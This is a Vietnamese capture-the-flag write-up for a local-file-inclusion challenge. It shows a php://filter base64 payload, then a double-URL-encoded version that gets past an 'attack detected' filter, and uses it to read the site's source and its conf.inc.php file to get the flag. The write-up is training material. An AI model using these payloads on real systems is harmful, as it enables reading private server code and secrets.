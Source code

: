 Bài này cũng là dạng LFI, vì bài trước cung cấp cho chúng ta 1 cách exploit rất hữu hiệu là dùng `php wrapper`, vậy bài này chúng ta cũng làm tương tự: truy cập vào đường dẫn 

`?page=php://filter/convert.base64-encode/resource=home`

thì 1 thông báo `attack detected` văng ra

Lấy tiêu đề làm hint, double encoding url trên:

`?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dhome`

thành công rồi!. Base64 decode kết quả:

```php
<?php include("conf.inc.php"); ?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>J. Smith - Home</title>
  </head>
  <body>
    <?= $conf['global_style'] ?>
    <nav>
      <a href="index.php?page=home" class="active">Home</a>
      <a href="index.php?page=cv">CV</a>
      <a href="index.php?page=contact">Contact</a>
    </nav>
    <div id="main">
      <?= $conf['home'] ?>
    </div>
  </body>
</html>
```

tương tự với page cv, contact, đều thấy 1 dòng `include("conf.inc.php");`

ở đầu. Vậy khả năng cao tất cả thông tin của ông Smith này nằm trong file đó. Sửa lại đường dẫn:

`?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf`

base64decode kết quả, ta sẽ có flag nằm trong file


